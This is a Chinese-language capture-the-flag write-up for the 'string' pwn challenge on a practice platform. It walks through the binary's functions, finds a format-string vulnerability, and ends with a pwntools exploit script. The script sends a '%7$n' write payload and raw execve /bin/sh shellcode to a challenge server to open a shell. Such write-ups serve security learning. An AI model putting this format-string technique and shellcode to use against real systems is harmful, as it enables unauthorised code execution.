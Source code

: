 ## string

这道题应该是攻防世界pwn题中最难的一道题了吧，拿到题目还是先查看程序的防御机制

![image-20210408202245142](https://s2.loli.net/2022/03/26/isc35UhQrto4xCb.png)

发现除了PIE全开，然后拖入IDA查看

![image-20210408202456265](https://s2.loli.net/2022/03/26/t2Vfe3BuKQS1T9I.png)

找到程序的入口，发现是由三个函数构成的，接着一一查看这三个函数

![image-20210408202534288](https://s2.loli.net/2022/03/26/GTXpcWfLEDSMVBZ.png)

第一个函数说了很多废话，但是耐心看完就是让我们输入east，不然的话程序会直接退出

![image-20210408202630396](https://s2.loli.net/2022/03/26/d7UZJtLm8lIOXby.png)

第二个函数也是，意思就是让我们就输入1不然程序还是会报错，但是在看的过程中其实我并没有发现什么漏洞，上网借鉴大佬的思路后，才发现第二个函数里面有个print函数漏洞

![image-20210408202813111](https://s2.loli.net/2022/03/26/UJKcnL6zV9rxGMS.png)

print函数漏洞造成格式化字符泄露，先接着看第三个函数

![image-20210408203111899](https://s2.loli.net/2022/03/26/yKNUb74Lfjtgv9R.png)

根据大佬的思路就是a1存放的就是v3的地址，就是我们v3申请的内存大小，如果使v3前面字节和后面字节相等，就可以打shellcode，由于我是初学者，脚本也是借鉴大佬的。

```
exp：

from pwn import *
r = remote('111.200.241.244',64805)
r.recvuntil("secret[0] is ") 
addr = int(r.recvuntil("\n")[:-1], 16)
print (addr)
r.recvuntil("What should your character's name be:\n")
r.sendline("aaa")
r.recvuntil("So, where you will go?east or up?:\n")
r.sendline("east")
r.recvuntil("go into there(1), or leave(0)?:\n")
r.sendline("1")
r.recvuntil("'Give me an address'\n")
r.sendline(str(addr))
r.recvuntil("And, you wish is:\n")
payload = 'A' * 85 + "%7$n"
r.sendline(payload)
#shellcode = asm(shellcraft.sh())
shellcode="\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"
r.sendline(shellcode)
r.interactive()
```
